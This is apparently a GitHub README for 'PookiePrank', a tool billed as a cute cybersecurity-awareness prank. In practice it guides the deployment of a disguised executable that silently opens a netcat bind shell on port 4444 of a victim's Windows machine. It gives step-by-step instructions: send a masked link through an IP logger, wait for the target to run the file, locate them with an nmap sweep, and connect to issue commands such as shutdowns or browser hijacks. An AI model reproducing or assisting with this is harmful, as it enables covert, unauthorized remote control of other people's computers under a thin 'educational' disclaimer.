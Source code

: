 # PookiePrank: A Cute but Terrifying Cybersecurity Awareness Tool 💀🎀


**PLEASE READ THE FULL DOCUMENTATION TO FULLY UNDERSTAND THE PROJECT AND HOW TO MAKE IT ACTUALLY WORK.**
---

## Table of Contents
- [What Is This?](#what-is-this)
- [Features](#features)
- [Why?](#why)
- [Usage](#usage)
- [Responsible Pranking Guidelines](#responsible-pranking-guidelines)
- [Legal Disclaimer](#legal-disclaimer)
- [Future Plans](#future-plans)

## What Is This?

**PookiePrank** is a lightweight "educational" program designed to demonstrate the importance of digital awareness through *strategic chaos*.  
It's a prank tool wrapped in charm — **cute on the outside, spooky on the inside**.

- Uses `netcat` for remote shell access (with full user control)
- Disguised behind a friendly-looking Python CLI
- An educational project that puts a Windows OS to vulnerability (and attacks eventually if not taken care of).
- Perfect for ethical demos, cybersecurity training, and… *light mischief*.

---

## Features

- **Silent Netcat Backdoor:** Triggers a reverse shell silently via batch file.
- **User Distraction UI:** Friendly messages and fake interactions to lower suspicion.
- **Remote Payload Execution:** Once connected, send commands in real-time.
- **Prank Arsenal:** Shutdowns, message popups, browser hijacks, and more.
- **Educational Angle:** Reinforces the dangers of blind trust in random executables.

---

## Why?

Because **security through trauma** works.  
This tool is designed to:

- Raise awareness of how easily social engineering works.
- Show how reverse shells operate.
- Make friends laugh *and* cry.
- Be a conversation starter in any cybersecurity interview.

---

## Usage

1. Host the executable and `netcat` folder.
2. Send the masked download link using a shortened IP logger service.
3. Wait for the target to run the file.
4. Connect to the shell:
- **On target machine (Runs automatically with python script)**.
   ```bash
   nc64 -lvp 4444
   ```
   
- **Attacker's Machine**.
  - **For Linux**
    ```bash
    nc <ip_address_of_the_target_machine> 4444
    ```
  
  - **For Windows**
    ```bash
    nc64 <ip_address_of_the_target_machine> 4444
    ```
    
   - Windows users can download `netcat` tool from [this repository](https://github.com/int0x33/nc.exe/)
   - In Linux, the netcat comes preinstalled.
 
   ---

   **NOTE:**
   
   - You will need to know the target ip address beforehand. You can either use IP Loggers or do an `nmap` scan over the local network usinf the network id which can be obtained by the subnet mask and the ip address of your device.
   
   - If you are on a virtual machine, it is recommended perform an nmap scan on your host machine since virtual machine results are not accurate.
   
   - **For Windows in Zenmap**
     ```bash
     nmap -sn <network_address_in_cidr_format>
     ```
     
   - **For Linux**
     ```bash
     nmap -sn <network_address_in_cidr_format>
     ```
     
   This will list all the IP addresses in a network and we have to find our target from this. We can use the hit and trial method here by using the netcat command.
   

  If port 4444 is open on any IP address, and the netcat command is successful, you're in.



6. Enjoy responsibly (or face karmic doom).
  ---




---

## Responsible Pranking Guidelines

1. No persistence (no startup or registry hacks).

2. No firewall tampering.

3. No data theft or spying.

4. Always reveal the prank eventually.

5. Use only on friends who won't yeet you into oblivion.



---

## Legal Disclaimer

**This project is for educational and ethical use only.
The creator takes no responsibility for misuse or unforeseen Rickroll (or any) damage caused by the same.**


---

## Future Plans

1. Add GUI launcher with meme themes

2. Auto-cancel prank if user types a secret code

3. PookieSec Dashboard™ for multi-prank coordination

4. Add dancing ASCII Rick in the terminal



## One Last Thing...

> **IMPORTANT:** For this prank to work, **you and your target must be on the same network** (e.g., college Wi-Fi, LAN party, cursed hostel internet).  
> Netcat operates over **local IP addresses** unless you're routing through public ports with port forwarding — which we’re *not doing here* (because jail is not part of the prank).

So yeah — **same Wi-Fi = RickRoll access granted**.

Stay stealthy, stay sassy. 😎🎀

— *PookieSec Ops Out.*
